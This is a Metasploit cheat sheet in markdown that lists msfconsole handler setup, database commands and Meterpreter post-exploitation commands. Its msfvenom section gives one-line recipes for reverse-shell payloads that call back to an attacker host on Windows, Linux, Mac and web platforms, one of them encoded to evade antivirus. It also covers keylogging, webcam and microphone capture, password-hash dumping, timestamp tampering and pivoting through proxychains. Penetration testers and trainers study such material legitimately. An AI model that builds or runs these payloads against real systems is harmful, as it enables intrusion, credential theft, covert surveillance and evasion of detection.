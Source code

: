 ```yaml
---
title: Metasploit
category: Exploitation
order: 2
---
```


> **Useage** 

Start w/ RC File | <code> msfconsole -r meta_config </code>
Example RC file | <code> use exploit/multi/handler <br> set PAYLOAD windows/meterpreter/reverse_https <br> set LHOST 10.10.75.1 <br> set LPORT 8443 <br> set ExitOnSession false <br> exploit -j </code>
Run a rc file | <code> resource [location of RC file] </code>
location | <code> /opt/metasploit-4.11/ or /usr/share/framework2/ </code>
Exploit Location | <code> [location]/apps/pro/msf3/modules/exploits/ </code>
Payload Location | <code> [location]/apps/pro/msf3/modules/payloads </code>
run | <code> ./app/msfconssole </code>
Show Exploits | <code> show exploits </code>
Find Exploits | <code> search multi/handler or search android </code>
Info about Exploits | <code> info exploit/multi/handler </code>
Use Exploit | <code> use exploit/multi/handler </code>
Show Payloads | <code> show payloads </code>
Set Payload | <code> set PAYLOAD windows/shell/reverse_tcp </code>
Show Options on Payload | <code> show options </code>
Set Remote Hosts | <code> set RHOST 10.10.77.1 </code>
Set Local Hosts | <code> set LHOST 10.10.75.1 </code>
Exit on Session | <code> set ExitOnSession false </code>
Exploit as Job | <code> exploit -j </code>
list running jobs | <code> jobs </code>
List sessions | <code> sessions -l </code>
Interact with session | <code> session -i [n] </code>
Background a shell | <code> CTRL-Z </code>
Kill sessions  | <code> sessions -K </code>
Add a route | <code> route add [victim2 subnet] [netmask] [sid] </code> 
Errno:ECONNECT RESET | Reason: Windows Antivirus on client

> **Database** 

Commands | db_connect, db_disconnect, db_driver, db_status, db_export
Data | hosts, vulns, services, creds, loot, notes
Populate Hosts/Ports | use auxiliary/scanner/protscan/[tcp or syn] <br> use auxiliary/discovery/udp_sweep <br> db_nmap
Manually | hosts --add/--delete [host]<br> services --add/--delete -p [port] -r [proto] -s [name] [host1, host2,...] <br> notes --add/--delete -r [type] -n '[note text]' [host1, host2,...]
Import | db_import Nmap XML (-oX option) Nessus XMLv2 or XMLv2 (.nessus)
Hosts Help and Search | hosts -h <br> host -S linux -R (adds to RHOST)
Vulnearabilities | vulns -h <br> vulns -S RPC <br> vulns -P 445

> **MSFVenom**

Example | <code> msfvenom -p windows/shell/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe > /tmp/file.exe </code>
Help | msfvenom --help-formats

**Windows:**

Binary | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f exe > shell.exe </code>
Powershell Reflection | <code> msfvenom -p windows/meterpreter/reverse_https lhost=[attacker] lport=[attackerport] -f psh-reflection -a x86 > output.txt </code> 
Powershell Command | <code> msfvenom –a x86 –platform windows –p windows/meterpreter/reverse_https LHOST=[attackerIP] LPORT=[attackerPort] -e x86/shikata_ga_nai –f psh-cmd </code> 

**Linux:**

Binary | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f elf > shell.elf </code>
Python | <code> msfvenom -p cmd/unix/reverse_python LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.py </code>
Bash | <code> msfvenom -p cmd/unix/reverse_bash LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.sh </code>
Perl | <code> msfvenom -p cmd/unix/reverse_perl LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.pl </code> 

**Mac:** 

Binary | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f macho > shell.macho </code>

**Web:**

PHP | <code> msfvenom -p php/meterpreter_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.php <br> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </code>
ASP | <code>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f asp > shell.asp </code> 
JSP | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f raw > shell.jsp </code>
WAR | <code> msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f war > shell.war </code>

**Shellcode:**
Linux | <code> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Windows | <code> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>
Mac | <code> msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your IP Address] LPORT=[Your Port to Connect On] -f [language] </code>

> **Meterpreter**

Get system info | sysinfo
Read Registry | reg
Change local directory | lcd
Download and Upload | download/upload
Make/Remove Directory | mkdir/rmdir
Edit a file | edit
Get the PID | getpid
Get the users ID | getuid
process list | ps
Drop to Command Prompt | Shell
Terminate Program | kill [pid]
Run a program | execute [program]
Change process | migrate [PID]
Display Routing Table | route
TCP relay | portfwd add -l 1111 -p 80 -r Target 2
Screen Shot | screenshot -p [filename.jpg]
List Webcams and take a picture | webcam_list, webcam_snap
Record Microphone | record_mic -d [Seconds]
Keylogger | keyscan_start, keyscan_stop, keyscan_dump
modules | data/meterpreter/
Load Module | use [last component of dll name]
priv modules | hashdump (SAM database), timestomp (MACE dates/times)
Port Scanner | meterpreter > load msfmap <br> meterpreter > msfmap

> **Route and Proxychain**

{% highlight bash %}
meterpreter > ipconfig 
Broadcom 440x 10/100 Integrated Controller - Packet Scheduler Miniport
Hardware MAC: 00:0b:db:1d:d3:2b
IP Address : 192.168.15.3
Netmask : 255.255.255.0

meterpreter > run arp_scanner -r 192.168.15.1/24
[*] ARP Scanning 192.168.15.1/24
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff
[*] IP: 192.168.15.5 MAC d8:d3:85:ff:ff:ff

route add 192.168.15.1 255.255.255.0 1

msf exploit(handler) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 192.168.15.1
RHOSTS => 192.168.15.1
msf auxiliary(tcp) > set PORTS 1-1024
PORTS => 1-1024

msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options
msf auxiliary(socks4a) > set SRVHOST 159.203.173.82
SRVHOST => 159.203.173.82
msf auxiliary(socks4a) > run

# vi /etc/proxychains.conf 
comment out DNS
socks4 <IP> <PORT>

proxychains nmap -sT -P0 10.0.0.10

{% endhighlight %}







